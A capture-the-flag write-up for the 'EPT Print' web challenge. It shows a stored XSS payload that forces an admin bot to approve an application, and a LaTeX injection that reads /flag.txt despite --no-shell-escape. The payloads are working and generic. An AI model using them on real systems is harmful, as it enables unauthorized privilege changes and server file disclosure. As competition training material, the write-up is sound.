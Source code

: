 # Writeup
By /dev/null TH٤ N١٥

## EPT Print
EPT Print was a web printing service which had a Flask-based backend allowing to which one could submit LaTeX code for typesetting and printing.
These prints could then be collected by scanning the Mifare tag on at the onsite printer.

Before one was allowed to print, one needed to be verified. The web UI featured a way to submit applications with a title and body. A user could see whether their application had been reviewed, i.e. if it had been opened.
In addition to the Flask server, there was also a bot running a headless browser that opened, i.e. reviewed (without accepting) the applications.

## Gaining verification
The first step to solving the challenge, was to become verified.
The web page has a content security policy allowing inline scripts to be executed.
From `__init__.py`
```py
    # Make sure we TRY to protect against dirty XSS attack
    # FIXME: remember to remove 'unsafe-inline' in script-src after testing
    script_src = "script-src 'self' 'unsafe-inline'"
    frame_src = "frame-src 'self'"
    if IS_PRODUCTION:
        script_src += " https://challenges.cloudflare.com"
        frame_src += " https://challenges.cloudflare.com"
```

There is also no sanitisation of the input from the users, allowing easy injection of code into the body of the application. These scripts will then be run by the admin bot while reviewing the application.

The application page for admins contains the following form
```html
<form method="POST" action="{{ url_for('approval.approve') }}">
    {{ form.hidden_tag() }}
    {{ form.user_id(value=application.user.id) }}
    <!-- Make it easy for the admin to click() the button by placing it at the top -->
    <button id="submit" type="submit" class="btn btn-primary">{{ form.submit.label }}</button>
</form>
```

Since this button is first in DOM, the script
```html
<script>
    document.querySelector("button").click();
</script>
```
can be added to the application body. The bot will then approve the user's application, allowing them to print.

## Extracting the flag

The second part of the task is to actually extract the flag, which is located in `/flag.txt`

LaTeX from the user is directly input into the template
```latex
\documentclass{article}
\usepackage{graphicx}
\usepackage{eso-pic}

\linespread{1.5}
\setlength{\parindent}{0pt}
\pagenumbering{gobble}
\title{EPT}
\author{klarz}

\AddToShipoutPictureBG*{
  \AtPageLowerLeft{
    \includegraphics[width=\paperwidth,height=\paperheight,keepaspectratio]{ept.png}
  }
}

\begin{document}

\null\hfill\begin{tabular}[t]{l@{}}
  \textbf{EPT CTF 2024} \\
  \textit{\today}
\end{tabular}

{\noindent\Large\bfseries\sffamily\color{red}{<PRINT_JOB_TITLE>}}
\vspace{3mm}

<PRINT_JOB_CONTENT>

\end{document}
```

This means we can inject any LaTeX code into the document part.

The file is then built using
```py
result = subprocess.run(
[
    "pdflatex",
    "--no-shell-escape",
    "-interaction=nonstopmode",
    "-halt-on-error",
    "-output-directory",
    latex_dir,
    latex_file,
],
```

This exposes multiple vulnerabilities including file system access.

LaTeX commands like `\input{/flag.txt}` would be able to read the contents of the flag.
Unfortunately, this command interprets the input as LaTeX, which cannot contain _ characters. This causes a build error.
Commands like `\lstinputlisting` or `\verbatiminput` would have solved this, but require the inclusion of external packages, which cannot be done inside the document.

The payload
```latex
        
\newread\file
\openin\file=/flag.txt
\loop\unless\ifeof\file
    \read\file to\fileline 
    \detokenize\expandafter{\fileline}
\repeat
\closein\file
```
was used. It reads the data into a variable, which it then processes in a way so that it will not be interpreted as LaTeX.

On the print, this will look like:
```
EPT–Y0U˙4R3˙4˙PR1NT3R˙M4ST3R˝ “par
```

which can be interpreted as the flag
```
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```

